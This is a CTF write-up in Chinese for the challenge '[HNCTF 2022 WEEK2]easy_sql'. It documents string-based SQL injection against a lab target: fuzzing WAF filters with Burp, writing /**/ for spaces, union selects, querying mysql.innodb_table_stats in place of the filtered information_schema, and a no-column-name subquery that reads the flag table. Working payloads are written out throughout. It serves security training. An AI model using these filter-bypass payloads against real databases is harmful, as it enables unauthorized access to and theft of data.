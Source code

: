 ## 基本信息

* 题目名称： [HNCTF 2022 WEEK2]easy_sql
* 题目链接： https://www.nssctf.cn/problem/2952
* 考点清单： sql注入，无列名注入
* 工具清单： burp,sqlmap
* payloads： 无

## 一、看到什么

**题目关键信息列表**：

1. 题目给了一个`id`查询的入口


## 二、想到什么解题思路

1. 用`sqlmap`直接跑一下
2. 跑不通，考虑存在`WAF`，使用`burp`看一下哪些关键词被过滤

## 三、尝试过程和结果记录

**尝试过程：**

1. Sqlmap无法得到结果，考虑存在`WAF`。
2. 使用常见的s`ql`关键词字典进行`burp`注入，发现确实存在`WAF`。
    - `id`为1时，正常显示结果。
    - `id`设置为`union`时，提示【姓名不存在，或账号密码错误】
    - `id`设置为`information`时，提示`error`，都是字符串，但是结果不同，说明存在WAF。图中响应长度为`530`的都是被过滤的。空格和`order`，`and` 等等这些都被过滤了。
    ![](images/[HNCTF%202022%20WEEK2]easy_sql-waf.png)

3. 发现输入一些字符串的时候，`id`也能正常失败，虽然提示【姓名不存在，或账号密码错误】，说明是字符型注入。发现3不报错，4开始报错，确认列数为3。
    ```
    # 正常
    1'/**/group/**/by/**/3,'1
    # error
    1'/**/group/**/by/**/4,'1
    ```

4. 确定回显位置。显示3，说明3的位置是回显位。
    ```
    1'/**/union/**/select/**/1,2,3/**/'1
    ```
5. 查看数据库。爆出数据库为`ctf`
    ```
    1'/**/union/**/select/**/1,2,database()/**/'1 
    ```
6. 接下来查看表名,可以看到数据库有多个数据表。

    ```
    # 正常语句爆表名的时候，出现error,是因为information被过滤了。
    1'/**/union/**/select/**/1,2,group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema=database()/**/'1 

    # 换成mysql.innodb_table_stats,但是这个时候就是查询所有数据库里的所有表，没有表和数据库的关系。
    1'/**/union/**/select/**/1,2,group_concat(table_name)/**/from/**/mysql.innodb_table_stats/**/where/**/'1
    ```
    ![](images/[HNCTF%202022%20WEEK2]easy_sql-table.png)

7. 接下来就需要找到`flag`这个表所在的数据库。

    ```
    1'/**/union/**/select/**/1,2,group_concat(database_name)/**/from/**/mysql.innodb_table_stats/**/where/**/table_name="flag"'
    ```
    ![](images/[HNCTF%202022%20WEEK2]easy_sql-database.png)
    

8. 现在就需要查询这个表里写`flag`的列。发现就得到了`flag`。

    ```
    1'/**/union/**/select/**/1,2,`1`/**/from/**/(select/**/1/**/union/**/select/**/*/**/from/**/ctftraining.flag)xxx/**/where/**/'1
    ```
    - `select/**/1/**/union/**/select/**/*/**/from/**/ctftraining.flag` 最终的结果会包含一个 1 和 flag 表中的所有列。
    - `xxx` 是给这个子查询取的别名，用来标识这个子查询,是 SQL 语法的一部分。
    - `1`作用是查询 子查询（虚拟表）的第一列。


## 四、总结与反思

1. `sqlmap`跑不通的，就表明存在`WAF`，需要使用`burp`来`fuzz`看一下哪些关键词被过滤。
2. 可以根据注入类型来简单模拟写一个题目的查询语句，将自己的注入语句拼接其中，看是否能正常组成指令来检查自己语句错误。

